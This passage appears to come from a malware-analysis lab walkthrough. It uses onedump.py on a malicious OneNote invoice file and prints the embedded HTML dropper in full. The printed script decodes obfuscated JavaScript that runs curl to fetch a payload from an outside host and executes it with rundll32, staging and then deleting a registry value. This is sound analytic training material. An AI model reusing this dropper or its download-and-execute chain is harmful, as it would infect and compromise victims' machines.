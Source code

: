 Subsequently, we get two interesting objects which seem to have HTML files. We shall use `-s X`, which *X* is the object number, to search for the *X* object and the `-d` flag to dump it on the screen.

``` sh
remnux@thm-remnux:~/onenoteDocs$ python3 onedump.py -s 5 -d invoice.one 
<html>

<div id="content">f5&u5&n5&c5&t5&i5&o5&n5& 5&s5&l5&e5&e5&p5&(5&m5&i5&l5&l5&i5&s5&)5&{5&v5&a5&r5& 5&d5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5&v5&a5&r5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&u5&l5&l5&;5&d5&o5& 5&{5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5& 5&}5&w5&h5&i5&l5&e5&(5&c5&u5&r5&D5&a5&t5&e5& 5&-5& 5&d5&a5&t5&e5& 5&<5& 5&m5&i5&l5&l5&i5&s5&)5&;5&}5&/5&*5&*5& 5&v5&a5&r5& 5&u5&r5&l5& 5&=5& 5&"5&h5&t5&t5&p5&s5&:5&/5&/5&g5&o5&o5&g5&l5&e5&.5&c5&o5&m5&"5&;5& 5&*5&/5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&w5&s5&c5&r5&i5&p5&t5&.5&s5&h5&e5&l5&l5&"5&)5&.5&r5&u5&n5&(5&"5&c5&u5&r5&l5&.5&e5&x5&e5& 5&-5&-5&o5&u5&t5&p5&u5&t5& 5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5& 5&-5&-5&u5&r5&l5& 5&"5& 5&+5& 5&u5&r5&l5&,5& 5&05&)5&;5&s5&l5&e5&e5&p5&(5&15&55&05&05&05&)5&;5&v5&a5&r5& 5&s5&h5&e5&l5&l5& 5&=5& 5&n5&e5&w5& 5&A5&c5&t5&i5&v5&e5&X5&O5&b5&j5&e5&c5&t5&(5&"5&s5&h5&e5&l5&l5&.5&a5&p5&p5&l5&i5&c5&a5&t5&i5&o5&n5&"5&)5&;5&s5&h5&e5&l5&l5&.5&s5&h5&e5&l5&l5&e5&x5&e5&c5&u5&t5&e5&(5&"5&r5&u5&n5&d5&l5&l5&35&25&"5&,5& 5&"5&C5&:5&\5&\5&P5&r5&o5&g5&r5&a5&m5&D5&a5&t5&a5&\5&\5&i5&n5&d5&e5&x5&15&.5&p5&n5&g5&,5&W5&i5&n5&d5&"5&,5& 5&"5&"5&,5& 5&"5&o5&p5&e5&n5&"5&,5& 5&35&)5&;5&</div>

<script language="javascript">

var hello = "39cd7b469beae7c617c73e0d008195ef";

var content = document.getElementById("content").innerText;

</script>

<script language="vbscript">

Dim ws : Set ws = CreateObject("WScript.Shell")

' Write reg
ws.RegWrite "HKCU\SOFTWARE\Andromedia\Mp4ToAvi\Values", content, "REG_SZ"

' msgbox ws.RegRead("HKCU\SOFTWARE\Andromedia\Mp4ToAvi\Values")

</script>

<script language="javascript">

var body = ws.RegRead("HKCU\\SOFTWARE\\Andromedia\\Mp4ToAvi\\Values");

var func = Function("url", body.replace(/5&/g, ""));
func("https://unitedmedicalspecialties.com/T1Gpp/OI.png");

</script>

<script language="vbscript">

ws.RegDelete("HKCU\SOFTWARE\Andromedia\Mp4ToAvi\Values")

' Close window
window.close

</script>

</html>
```
